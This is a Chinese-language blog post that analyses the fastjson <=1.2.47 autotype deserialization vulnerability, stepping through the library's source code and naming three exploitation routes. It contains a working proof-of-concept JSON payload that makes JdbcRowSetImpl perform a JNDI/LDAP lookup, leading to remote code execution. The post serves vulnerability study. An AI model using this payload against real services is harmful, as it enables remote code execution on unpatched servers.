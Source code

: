 ```yaml
---
layout: post
title: "[web] fastjson<=1.2.47漏洞分析"
categories: "WebSecurity"
---
```


#### 0x00 漏洞描述：

fastjson可以通过autotype功能，去反序列化传入的对象，如：{"@type":"classname"}.在1.2.25版本后默认关闭只有内置的一些class可以进行反序列化，如果开启会通过黑白名单进行防护加载恶意类; 该文章分析的漏洞为版本小于1.2.48，无需开启autotype功能即可进行漏洞利用，导致远程代码执行危害巨大。

#### 0x01 漏洞触发点：

代码中直接使用JSON.parse()和JSONObject.parse()解析用户传入的数据就会产生问题，同时还有一些比较不常见的JSON.parseObject()、JSONObject.parseObject、JSONArray.parse()、JSON.parseObject(input, Object.class)等

#### 0x02 漏洞分析：

使用的示例代码：

```
Object obj2 = JSONObject.parseObject("{\"a\":{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},\"b\":{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://127.0.0.1:1389/obj\",\"autoCommit\":true}}");
```

由于是嵌套对象，会递归解析：

```java
parseObject:544, DefaultJSONParser (com.alibaba.fastjson.parser)
if (!objParsed) {
  obj = this.parseObject(input, key);	// 此时key为a，开始嵌套解析
}
```

检测到"@type"时，则开始调用checkAutoType尝试进行对应类的加载：

```java
parseObject:303, DefaultJSONParser (com.alibaba.fastjson.parser)
if (key == JSON.DEFAULT_TYPE_KEY
        && !lexer.isEnabled(Feature.DisableSpecialKeyDetect)) {
    String typeName = lexer.scanSymbol(symbolTable, '"');

    if (lexer.isEnabled(Feature.IgnoreAutoType)) {
        continue;
    }

    Class<?> clazz = null;
    if (object != null
            && object.getClass().getName().equals(typeName)) {
        clazz = object.getClass();
    } else {
        clazz = config.checkAutoType(typeName, null, lexer.getFeatures());  // 这里开始尝试针对java.lang.Class进行加载
```

checkAutoType中：通过autoType开关决定是否使用黑白名单过滤、从mapping中获取class、从deserializers中获取对应的class：

```java
if (autoTypeSupport || expectClass != null) {	// 默认关闭，直接跳过
    ...
        if (Arrays.binarySearch(acceptHashCodes, hash) >= 0) {
            clazz = TypeUtils.loadClass(typeName, defaultClassLoader, false);
            if (clazz != null) {
                return clazz;
            }
        }
        if (Arrays.binarySearch(denyHashCodes, hash) >= 0 && TypeUtils.getClassFromMapping(typeName) == null) {
            throw new JSONException("autoType is not support. " + typeName);
        }
    }
}
if (clazz == null) {
    clazz = TypeUtils.getClassFromMapping(typeName);
}

if (clazz == null) {
    clazz = deserializers.findClass(typeName);  // 从这里获取了java.lang.Class对应的类
}
```

<strong>关键点</strong>: IdentityHashMap中存在java.lang.class，因此可以使用findClass获取到对应的类。

获取对应的类后，再尝试创建对应的ObjectDeserializer对象：

```java
parseObject:377, DefaultJSONParser (com.alibaba.fastjson.parser)
ObjectDeserializer deserializer = config.getDeserializer(clazz);
...
Object obj = deserializer.deserialze(this, clazz, fieldName); // 调用该对应的反序列化方法
```

在deserialze方法中，解析json字符串中的val值，并加载

```java
deserialze:226, MiscCodec (com.alibaba.fastjson.serializer)
if (lexer.token() == JSONToken.LITERAL_STRING) {
     if (!"val".equals(lexer.stringVal())) {
         throw new JSONException("syntax error");
     }
     lexer.nextToken();
 } else {
     throw new JSONException("syntax error");
 }

 parser.accept(JSONToken.COLON);

 objVal = parser.parse();	// 获取到val对应的值：com.sun.rowset.JdbcRowSetImpl
deserialze:334
if (clazz == Class.class) {
            return (T) TypeUtils.loadClass(strVal, parser.getConfig().getDefaultClassLoader());		// 加载com.sun.rowset.JdbcRowSetImpl类
        }
```

在loadClass中不仅加载了com.sun.rowset.JdbcRowSetImpl类,同时将该类缓存到了mappings中

```java
loadClass:1226, TypeUtils (com.alibaba.fastjson.util)
if(classLoader != null){
    clazz = classLoader.loadClass(className);
    if (cache) {	// 默认开启
        mappings.put(className, clazz);
    }
    return clazz;
```

<strong>第一阶段完成：执行完成的结果是将本在黑名单中的com.sun.rowset.JdbcRowSetImpl类缓存到了mappings中</strong>

嵌套解析略过，直接跟到checkAutoType中：

```java
# 由于默认关闭了autotype功能，无法使用黑名单直接中断
if (autoTypeSupport || expectClass != null) {
     ...
         if (Arrays.binarySearch(acceptHashCodes, hash) >= 0) {
             clazz = TypeUtils.loadClass(typeName, defaultClassLoader, false);
             if (clazz != null) {
                 return clazz;
             }
         }
         if (Arrays.binarySearch(denyHashCodes, hash) >= 0 && TypeUtils.getClassFromMapping(typeName) == null) {
             throw new JSONException("autoType is not support. " + typeName);
         }
     }
 }
 if (clazz == null) {
     clazz = TypeUtils.getClassFromMapping(typeName);	// 从mappings获取到了之前缓存的com.sun.rowset.JdbcRowSetImpl类
 }
```

接着创建对应的ObjectDeserializer对象：

```java
parseObject:377, DefaultJSONParser (com.alibaba.fastjson.parser)
ObjectDeserializer deserializer = config.getDeserializer(clazz); // 该方法最后会初始化sortedFieldDeserializers列表
```

在sortedFieldDeserializers列表中，保存满足条件的字段名和对应的方法名，这里的方法名为getter和setter方法这里不再细跟。

![fastjson]({{ '/images/201907/fastjson_1_1.png' | prepend: site.baseurl }})

接着会调用deserialze方法，初始化类对应的字段值，并调用sortedFieldDeserializers中保存的对应方法：

Ps:由于这里使用classloader的方式动态创建FastjsonASMDeserializer_1_JdbcRowSetImpl，要想获取源码需要在ASMDeserializerFactory中获取对应的class二进制数据

```
createJavaBeanDeserializer:89, ASMDeserializerFactory (com.alibaba.fastjson.parser.deserializer)
ClassWriter cw = new ClassWriter();
cw.visit(49, 33, classNameType, ASMUtils.type(JavaBeanDeserializer.class), (String[])null);
this._init(cw, new ASMDeserializerFactory.Context(classNameType, config, beanInfo, 3));
this._createInstance(cw, new ASMDeserializerFactory.Context(classNameType, config, beanInfo, 3));	// 通过classwriter去生成对应类的class字节码
this._deserialze(cw, new ASMDeserializerFactory.Context(classNameType, config, beanInfo, 5));
this._deserialzeArrayMapping(cw, new ASMDeserializerFactory.Context(classNameType, config, beanInfo, 4));
byte[] code = cw.toByteArray();		// 这里就会获取对应类的class二进制源码
Class<?> deserClass = this.classLoader.defineClassPublic(classNameFull, code, 0, code.length);	// 使用classLoader.defineClass生成对应的class对象
```

获取后保存成class文件，使用ide打开即可以看到对应的源码：

![fastjson]({{ '/images/201907/fastjson_1_2.png' | prepend: site.baseurl }})

首先调用setDataSourceName，参数为json字符串中解析出来对应位置的值：

![fastjson]({{ '/images/201907/fastjson_1_3.png' | prepend: site.baseurl }})

后续通过setValue调用了setAutoCommit，参数同样是从json字符串中解析对应位置的值：

![fastjson]({{ '/images/201907/fastjson_1_4.png' | prepend: site.baseurl }})

setAutoCommit: 主要调用connect方法，在该方法中会使用lookup连接传入的DataSourcename：

```java
public void setAutoCommit(boolean var1) throws SQLException {
    if (this.conn != null) {
        this.conn.setAutoCommit(var1);
    } else {
        this.conn = this.connect();
        this.conn.setAutoCommit(var1);
    }
}

private Connection connect() throws SQLException {
    if (this.conn != null) {
        return this.conn;
    } else if (this.getDataSourceName() != null) {
        try {
            InitialContext var1 = new InitialContext();
            DataSource var2 = (DataSource)var1.lookup(this.getDataSourceName());	// 调用了可控的rmi/ldap地址    
```

至此整个漏洞触发的流程就结束了

#### 0x03 漏洞利用：

fastjson有三种利用方式，分别是1.jndi配合rmi ldap、2.bytecodes(本地字节码注入)、3.tomcat ClassLoader 配合bcel。jndi方式需要看当前jdk版本号有没有修复jndi注入漏洞且还需要机器可以通外网，而后两种是本地加载的，也不会因为jdk版本而限制

#### 0x04 总结：

* 针对@type功能的解析流程：使用checkAutoType进行判断是否为可解析的类：黑白名单、mappings缓存、内置IdentityHashMap；获取对应类的ObjectDeserializer保存需要Field和method；调用deserialze初始化对应的Field、调用对应的method
* 分析漏洞加深对漏洞的理解、强化分析漏洞的思维

